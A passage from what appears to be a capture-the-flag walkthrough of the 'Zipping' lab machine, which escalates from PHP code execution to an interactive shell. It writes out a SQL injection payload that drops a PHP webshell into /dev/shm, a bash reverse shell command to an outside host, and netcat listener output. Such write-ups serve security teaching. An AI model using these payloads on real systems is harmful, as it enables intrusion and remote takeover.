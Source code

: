 [*Click for full image*](/img/image-20240110110422182.png)

That’s executing my PHP to show the info. That’s code execution.

It’s worth nothing that while this works in `/dev/shm`, it won’t work in `/tmp`, because Apache’s using a sandboxed `tmp` directory, `SYSTEMD_PRIVATE`. .

#### Webshell / Shell

To get a webshell, I’ll change the injection to write a webshell:

```

id=%0A100'+union+select+"<?php+system($_REQUEST['cmd']);+?>",2,3,4,5,6,7,8+into+outfile+"/dev/shm/shell.php";--+-1

```

Now to execute it I’ll just visit it with `cmd=id`:

![image-20240110111010789](/img/image-20240110111010789.png)

To turn that into a shell, I’ll start `nc` and update the `cmd` to a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

```

cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'

```

It is important to encode the `&` to `%26` so that it’s not treated as the end of the parameter and start of another.

At `nc`, I get a shell:

```

oxdf@hacky$ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.229 49150
bash: cannot set terminal process group (1155): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$ 

```

I’ll upgrade using the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

rektsu@zipping:/var/www/html/shop$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
rektsu@zipping:/var/www/html/shop$ ^Z
[1]+  Stopped                 nc -lvnp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lvnp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
rektsu@zipping:/var/www/html/shop$

```
